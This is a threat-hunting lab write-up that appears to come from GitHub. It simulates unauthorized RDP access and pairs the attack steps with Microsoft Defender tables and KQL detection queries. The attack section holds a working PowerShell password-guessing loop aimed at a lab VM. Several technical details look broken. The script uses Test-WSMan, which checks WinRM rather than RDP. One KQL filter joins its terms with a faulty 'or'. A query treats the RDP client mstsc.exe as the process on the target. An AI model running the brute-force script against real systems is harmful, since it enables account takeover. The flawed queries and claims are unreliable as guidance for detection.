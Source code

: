 # Threat Event (Unauthorized RDP Access)
**Unauthorized Remote Desktop Protocol (RDP) Access**

## Steps the "Bad Actor" Took to Create Logs and IoCs:
1. **Reconnaissance**: The bad actor scans for open RDP ports (TCP 3389) on the target network.
   - Utilizes Nmap to find exposed services.
2. **Brute Force**: The bad actor attempts to authenticate using brute force.
   - Use a PowerShell script to simulate a BruteForce attempt.
``` $username = "Administrator"  # Change to a valid username
$passwords = @("Password123!", "P@ssw0rd!", "Admin123", "123456")  # List of passwords to try
$victimIP = "10.0.0.26"  # Replace with the private IP of `thscenariovm`

foreach ($password in $passwords) {
    try {
        $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
        $credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
        Test-WSMan -ComputerName $victimIP -Credential $credential -ErrorAction Stop
        Write-Host "Login successful with password: $password"
        break
    } catch {
        Write-Host "Login failed with password: $password"
    }
}
```
3. **Successful Login**: The attacker successfully logs into the machine over RDP.
   - Logs show the source IP address used for RDP access.
4. **Command Execution**: The attacker executes commands or malicious scripts once logged in (e.g., downloading malware, lateral movement).

---

## Tables Used to Detect IoCs:

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceLogonEvents                                                            |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicelogonevents-table |
| **Purpose**| Used to detect successful RDP logins, including login source IP and username. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents                                                           |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table |
| **Purpose**| Used to detect network activity over port 3389 and connections from suspicious IP addresses. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents                                                           |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table |
| **Purpose**| Used to detect RDP session creation or any commands executed remotely. |

---

## Related Queries:
```kql
// Detecting RDP login attempts
DeviceLogonEvents
| where DeviceName == "thscenariovm"
| where ActionType in ("LogonFailed", "LogonSuccess")  // Focus on logon attempts
| project Timestamp, DeviceName, AccountName, LogonType, ActionType, RemoteIP

// Detect RDP traffic on port 3389 from suspicious IPs
DeviceNetworkEvents
| where DeviceName == "thscenariovm"
| project Timestamp, DeviceName, RemoteIP, RemotePort, InitiatingProcessFileName

// Detect suspicious processes spawned after RDP login
DeviceProcessEvents
| where ProcessCommandLine contains "cmd.exe" or "powershell.exe"
| where InitiatingProcessFileName == "mstsc.exe" // mstsc.exe is the RDP client
| project Timestamp, DeviceName, AccountName, ProcessCommandLine, InitiatingProcessFileName
```
---

## Created By:
- **Author Name**: James Harrington
- **Author Contact**: https://www.linkedin.com/in/Goodk47/
- **Date**: January 24, 2024

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**
